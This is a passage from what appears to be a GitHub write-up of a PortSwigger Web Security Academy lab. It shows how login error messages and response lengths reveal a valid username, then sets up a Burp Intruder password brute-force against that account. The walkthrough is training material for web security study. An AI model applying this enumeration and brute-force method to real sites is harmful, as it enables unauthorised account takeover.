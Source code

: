 <span style="color:yellow;font-weight:700;font-size:30px">
Authentication vulnerabilitie

</span>
https://portswigger.net/web-security/authentication



# ***1. Lab: Username enumeration via different responses***
https://portswigger.net/web-security/authentication/password-based/lab-username-enumeration-via-different-responses

To solve the lab, enumerate a valid username, brute-force this user's password, then access their account page. 

1. we enter  the login page and send a test login:

```
req:
POST /login HTTP/1
...
username=a&password=a

res:
HTTP/1.1 200 OK
..
Invalid username
```

we have a tell for enumerating the username

2. send to **intruder**
```
req:
POST /login HTTP/1.1
..
username=§a§&password=a
```
(use supplied username list to enumerate the **§a§** parameter)

responses:
all resonses are HTTP/1.1 200 OK
all response but 1 have Content-Length of 3096 with **Invalid username** message
one response has Content-Length of 3098 - and a message of **Incorrect password**

we now have a Valid username: **app**

3. lets change the intruder parameters to brute-force the password:

```
req:
POST /login HTTP/1.1
..
username=app&password=§a§
```
(use supplied password list to enumerate the **§a§** parameter)
